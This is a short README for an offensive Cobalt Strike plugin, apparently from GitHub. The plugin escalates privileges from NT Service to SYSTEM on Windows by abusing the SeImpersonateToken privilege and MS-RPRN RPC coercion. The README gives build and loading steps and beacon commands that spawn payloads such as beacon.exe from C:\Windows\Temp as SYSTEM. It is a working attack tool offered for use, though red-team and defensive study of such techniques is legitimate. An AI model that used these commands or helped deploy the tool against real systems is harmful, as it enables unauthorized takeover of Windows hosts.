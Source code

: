 # Coerced Potato Reflective DLL

Privilege escalation from NT Service to SYSTEM using SeImpersonateToken privilege and MS-RPRN functions.

Heavily based on https://github.com/Prepouce/CoercedPotato


Reflective Loader from https://github.com/stephenfewer/ReflectiveDLLInjection.

## Install

Clone this repo and compile the project in VisualStudio then load `dist/coercedpotato.cna` into CobaltStrike.

## Usage

You first need to spawn the RPC listener with
```
beacon> CoercedPotato spawn ProcessToSpawn OptionalCmdArgument
```

for example
```
beacon> CoercedPotato spawn C:\Windows\Temp\beacon.exe
beacon> CoercedPotato spawn C:\Windows\Temp\loader.exe C:\Windows\Temp\beacon.bin
```

then you can trigger a SYSTEM call
```
beacon> CoercedPotato coerce
```

<p align="center">
  <img src="images/poc.png">
</p>
